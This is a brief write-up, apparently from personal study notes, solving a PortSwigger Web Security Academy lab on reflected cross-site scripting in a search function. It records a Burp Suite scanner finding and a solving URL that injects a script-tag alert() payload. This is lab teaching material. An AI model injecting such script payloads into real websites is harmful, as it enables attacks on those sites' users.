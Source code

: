 # [Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

## Lab

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the `alert` function.

## tools

burpsuite scanner: detected `Cross-site scripting (reflected)`

## Solution

url:

```url
https://id.web-security-academy.net/?search=<script>alert()</script>
```

